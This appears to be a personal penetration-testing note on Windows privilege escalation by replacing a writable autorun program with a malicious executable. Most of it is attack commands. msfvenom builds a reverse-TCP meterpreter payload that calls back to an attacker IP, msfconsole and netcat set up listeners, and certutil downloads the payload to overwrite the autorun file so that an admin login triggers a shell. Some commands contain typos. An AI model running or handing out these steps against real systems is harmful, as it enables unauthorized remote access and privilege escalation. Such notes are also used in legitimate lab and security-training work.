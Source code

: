 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Autoruns|Enum]]
General workflow:
1. Identify autoruns
2. Identify if you have `write` privs on autorun
3. Identify if autorun is run on admin login
4. Generate payload
5. name it the same as autorun program
6. replace autorun with malware payload
7. setup listener
8. wait for admin to log in and trigger autorun
If you are on this page, you should have done steps 1-3.
#### Generate payload
Attack box: 
```bash
msfvenom -p windows/meterprter/reverse_tcp lhost=<attack ip> lport=<port> -f exe -o <autorun program name>.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
```
#### setup listener
```bash
# for meterpreter payload
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run

# for regular reverse shell
nc -nvlp 9001
```
#### replace autorun w/ malware
Also see [[Windows|file transfer]]
```powershell
# attackbox, navigate to payload dir
# setup server
sudo python -m http.server 80

# you can then open IE on target, input your attack ip to connect to it, click on file, save as, then save to location of autorun file.

# otherwise:
certutil -urlcache http://<attack ip>/<filepath> <path to autorun file>
certuitil -urlcache http://10.10.10.14/program.exe "C:\Program Files\Autorun Program\program.exe"
```
Now just wait for admin/other user to log in and it should give you a shell. 